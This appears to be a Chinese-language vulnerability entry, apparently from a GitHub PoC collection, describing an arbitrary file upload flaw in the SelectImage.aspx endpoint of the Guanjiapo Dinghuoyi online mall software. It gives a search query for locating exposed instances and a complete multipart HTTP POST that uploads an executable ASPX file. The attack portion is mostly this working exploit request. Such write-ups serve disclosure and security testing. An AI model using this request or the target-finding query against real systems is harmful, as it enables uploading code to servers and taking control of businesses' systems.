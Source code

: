 # 任我行 管家婆 订货易在线商城 SelectImage.aspx 任意文件上传漏洞

## 漏洞描述

任我行率先针对中小企业推出了管家婆进销存、财务一体化软件。

管家婆订货易在线商城存在 SelectImage.aspx 任意文件上传漏洞，攻击者可通过该漏洞可控制整个系统，最终导致系统处于极度不安全状态。

## 漏洞影响

管家婆 订货易在线商城

## 网络测绘

```
title="订货易"
```

## 漏洞复现

登陆页面

![image-20231115102159123](images/image-20231115102159123.png)

poc

```
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="TEST.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--"
```

![image-20231115102227428](images/image-20231115102227428-17000150119182.png)
